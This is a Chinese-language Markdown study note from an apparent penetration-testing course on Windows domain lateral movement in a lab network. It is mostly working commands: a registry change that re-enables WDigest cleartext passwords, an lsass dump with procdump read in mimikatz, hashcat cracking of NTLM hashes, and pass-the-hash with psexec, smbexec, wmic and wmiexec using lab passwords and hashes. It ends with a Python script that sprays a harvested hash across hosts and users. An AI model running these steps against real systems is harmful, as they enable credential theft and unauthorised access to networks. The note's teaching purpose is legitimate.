

# 思维导图


# 知识点

## 无法获取明文密码：

Windows2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码
Windows2012以下版本若安装KB2871997补丁，同样也会导致无法获取明文密码

针对以上情况，我们提供了4种方式解决此类问题

- 1.利用哈希hash传递(pth，ptk等)进行移动

- 2.利用其它服务协议(SMB,WMI等)进行哈希移动 

- 3.利用注册表操作开启Wdigest Auth值进行获取

  - 注册表操作开启Wdigest Auth值

    ```shell
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

- 4.利用工具或第三方平台(Hachcat)进行破解获取

  - 在线hash解密
  - hash破解工具

## windows-hash加密算法

Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash。

## 域用户与本地用户的区别

- god/administrator是域用户
- ./administrator是本地用户

# 演示案例：

## 案例 1-Procdump+Mimikatz 配合获取

Mimikatz属于第三方软件，直接上传到目标主机可能被杀毒软件查杀，这时我们可以配合官方软件Procdump，将Procdump上传目标主机获取用户信息(dmp文件)，使用本地的Mimikatz打开Procdump获取的用户信息。

- Procdump下载：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
- mimikatz下载：https://github.com/gentilkiwi/mimikatz/releases

#### procdump 配合 mimikatz

```shell
procdump -accepteula -ma lsass.exe lsass.dmp
```


mimikatz 上执行：

```shell
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```


## 案例2：Hashcat破解获取Windows NTML Hash

[密码破解全能工具：Hashcat密码破解攻略 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/164507.html)

```shell
hashcat -a 0-m 1000 hash file --force
```


## 案例3：域横向移动SMB服务利用-psexec,smbexec

利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。

#### psexec工具：

- 在微软官方Pstools工具包中，但是官方Pstools中的psexec只能明文连接，无法采用hash连接。
- 如果需要hash连接，可以使用impacket工具包中的psexec，但是impacket非官方自带，容易被杀。
- Pstools官方工具包：
  - https://docs.microsoft.com/en-us/sysinternals/downloads/pstools

##### psexec第一种：:ADMINISTRATOR

先有ipc链接，psexec需要明文或hash传递

```shell
net use \\192.168.3.32\ipc$  "admin!@#45" /user :administrator
psexec \\192.168.3.32 -s cmd  # 需要先有ipc链接 -s以System权限运行CMD
```


##### psexec第二种：

不用建立IPC直接提供明文账户密码（推荐）

```shell
psexec \\192.168.3.21 -u administrator -p Admin12345 -s cmd
psexec -hashes :$HASH$ ./administrator @10.1.2.3
psexec  -hashes :$HASH$ domain/administrator @10.1.2.3
psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator @192.168.3.32
```

利用明文成功


利用hash失败，微软官方Pstools工具包中的psexec无法采用hash连接，只能明文连接。


#### smbexec工具：

- 非官方自带-参考impacket工具包使用，操作简单，容易被杀
- impacket工具包：
  - https://gitee.com/RichChigga/impacket-examples-windows
  - https://github.com/SecureAuthCorp/impacket

##### smbexec

无需先建立ipc链接、 明文或hash传递

```shell
smbexec god/administrator:Admin12345@192.168.3.21
smbexec ./administrator:admin!@#45@192.168.3.32
smbexec -hashes :$HASH$ ./admin@192.168.3.21
smbbexec -hashes :$HASH$ domain/admin@192.168.3.21
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21
```

利用明文成功


利用hash成功


## 案例4：域横向移动 WMI 服务利用-cscript,wmiexec,wmic

**WMI** (Windows Management Instrumentation) 是通过135端口进行利用，支持用户名**明文**或者**hash**的方式进行认证，并且**该方法不会在目标日志系统留下痕迹**。


#### 自带WMIC 

- 明文传递 
- 优点是自带工具，不用考虑免杀
- 缺点是**无回显**, 需要想方法读取结果。

```shell
wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\1.txt"
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c ipconfig >C:\1.txt"
```




#### 自带cscript

- [下载链接](https://www.secpulse.com/wp-content/uploads/2015/05/cache-a360611dc24d240989799c29c555e4b7_wmiexec-v1_1.rar)
- 明文传递
-  **有回显**

```shell
cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345
```


套件impacket —wmiexec 

- **明文或hash传递** 
- **有回显**exe版本 
- 缺点：易被杀

```shell
wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"
wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"
wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"
wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
```

明文传递


hash传递


## 案例5：域横向移动以上服务 hash 批量利用-python 编译 exe

#### 信息收集

##### mimikatz收集到密码hash

```shell
518b98ad4178a53695dc997aa02d455c
```


##### 探测网段域内主机

```shell
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.3.%I |findstr "TTL="
```


```shell
192.168.3.21
192.168.3.25
192.168.3.29
192.168.3.30
192.168.3.31
192.168.3.32
```

##### 域内用户

```shell
net user / domain
```


```shell
Administrator
boss
dbadmin 
debian
devadmain
fedora
fi1eadmin
Guest
hr
itadmin 
jenkins 
kali
k1ion
k1ionsec
krbtgt
1iandy
logers
logtest
mack
mary
SM6ef9b5ce41 4946ae9
SM_c330a5709f6a478b8
SM_d3853544b62a421 fb
SM_d80bb46e751 64f258
upnadm
webadmin
```

##### 脚本批量利用

至此，我们已经收集到了IP，用户名，和密码hash。我们可以写一个python脚本批量利用。

```Python
import os,time
 
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.29',
'192.168.3.30',
'192.168.3.32'
}
 
users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'webadmin'
}
 
hashs={
#'ccef208c6485269c20db2cad21734fe7',
'518b98ad4178a53695dc997aa02d455c'
}
 
for ip in ips:
    for user in users:
        for mimahash in hashs:
            #域用户和本地用户都试试
            #wmiexec -hashes :hash god/user@ip whoami
            #wmiexec -hashes :hash ./user@ip whoami
            exec = "wmiexec -hashes :"+mimahash+" god/"+user+"@"+ip+" whoami"
            exec1 = "wmiexec -hashes :"+mimahash+" ./"+user+"@"+ip+" whoami"
            print('--->' + exec + '<---')
            print('--->' + exec1 + '<---')
            os.system(exec)
            os.system(exec1)
            time.sleep(0.5)
```

编译成exe文件

```python
pyinstaller -F fuck_neiwang_002.py
```


执行exe

192.168.3.29 hash可用


192.168.3.32 hash可用


后面继续信息收集，更新hash字典，再渗透。


# 涉及资源

[https://github.com/hashcat/hashcat](https://github.com/hashcat/hashcat)

[https://www.freebuf.com/sectool/164507.html](https://www.freebuf.com/sectool/164507.html)

[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

[https://gitee.com/RichChigga/impacket-examples-windows](https://gitee.com/RichChigga/impacket-examples-windows)

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools](https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools)

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)

[https://github.com/k8gege/K8tools](https://github.com/k8gege/K8tools)

[https://www.cnblogs.com/-qing-/p/10661480.html](https://www.cnblogs.com/-qing-/p/10661480.html ) 